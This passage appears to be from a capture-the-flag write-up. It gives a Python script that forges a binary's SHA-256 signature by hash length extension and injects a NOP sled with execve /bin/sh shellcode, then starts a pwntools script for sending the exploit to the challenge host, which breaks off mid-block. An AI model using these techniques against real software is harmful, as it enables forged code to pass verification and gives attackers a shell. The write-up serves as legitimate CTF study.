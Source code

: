 Script for hash extension and write data to the `signed_binary`:

```python
# https://github.com/stephenbradshaw/hlextend
import hlextend
key = b'?'*30

with open('./src/signed_binary', "rb") as f:
    data = bytearray(f.read())

# with open('./src/test.txt', "r") as f:
with open('./src/hashes.txt', "r") as f:
    hashs = f.read().strip().splitlines()   

write_idx = 19
write_offset = 0x1168
write_len = 3736

target_idx = 30
target_offset = 0x3038
target_len = 80
salt = f's{target_idx}{target_idx-3:02X}'
start_hash = hashs[target_idx].split(':')[-1]
unknown_len = len(key) + len(salt)

# https://packetstormsecurity.com/files/153038/Linux-x64-execve-bin-sh-Shellcode.html
shell = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
payload =  b'\x90' * 100
payload += shell
payload = payload.ljust(write_len - target_len - 9 - (-(unknown_len + target_len + 9) % 64), b'\x90')

sha = hlextend.new('sha256')
new_data = sha.extend(payload, data[target_offset:target_offset+target_len], unknown_len, start_hash)
new_hash = sha.hexdigest()

data[write_offset:write_offset+write_len] = new_data
hashs[write_idx] = salt[1:] + '\x00:' + new_hash
with open('./exploit/shell', "wb") as f:
    f.write(data)
with open('./exploit/sus.txt', "w") as f:
    f.write('\n'.join(hashs))
```

Script to send our exploit payload:

```python!
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./src/verify')
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'seedling-d22fuls4bf566.shellweplayaga.me'
port = int(args.PORT or 10001)
# Local debug
gdbscript="""
init-gef
tmux-setup
b * verify_binary+559
```